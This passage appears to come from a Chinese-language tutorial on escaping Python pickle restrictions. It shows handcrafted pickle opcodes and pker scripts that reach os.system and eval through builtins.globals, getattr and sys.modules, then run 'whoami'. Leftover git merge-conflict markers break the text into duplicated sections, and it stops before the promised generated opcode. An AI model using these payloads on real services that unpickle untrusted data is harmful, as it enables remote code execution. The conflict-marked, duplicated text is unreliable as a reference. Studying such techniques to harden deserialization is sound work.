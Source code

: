 ###### 利用 `builtins.globals()` 获取危险函数.

还可以用 builtins 的 `globals()` 方法获取危险函数.`globals()` 方法返回一个字典

> 返回的字典包含了所有全局作用域内的名称（键）及其对应的值（值）. 这个字典反映了当前模块全局命名空间的状态

其中固然也包含了一些危险模块.

```plain
=======
```bash
opcode=b"cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS'get'\ntRp2\n0csys\nmodules\np3\n0g2\n(g3\nS'os'\ntRp4\n0g0\n(g4\nS'system'\ntRp5\n0g5\n(S'whoami'\ntR."
```

###### 利用 `builtins.globals()` 获取危险函数。

还可以用 builtins 的 `globals()` 方法获取危险函数。`globals()` 方法返回一个字典

> 返回的字典包含了所有全局作用域内的名称（键）及其对应的值（值）. 这个字典反映了当前模块全局命名空间的状态

其中固然也包含了一些危险模块。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
>>> builtins.globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'builtins': <module 'builtins' (built-in)>, 'os': <module 'os' (frozen)>, 'pickle': <module 'pickle' from 'C:\\Python311\\Lib\\pickle.py'>, 'sys': <module 'sys' (built-in)>}
```

例如这里就出现了 `os`.

<<<<<<< HEAD
道理和上边一样.

pker 的输入

```plain
=======
道理和上边一样。

pker 的输入

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
globa1=GLOBAL("builtins","globals")
glob=globa1()
dict=GLOBAL("builtins","dict")
getattr=GLOBAL("builtins","getattr")
get=getattr(dict,"get")
builtins=get(glob,"__builtins__")
eval=getattr(builtins,"eval")
eval('__import__("os").system("whoami")')
return
```

生成的 opcode
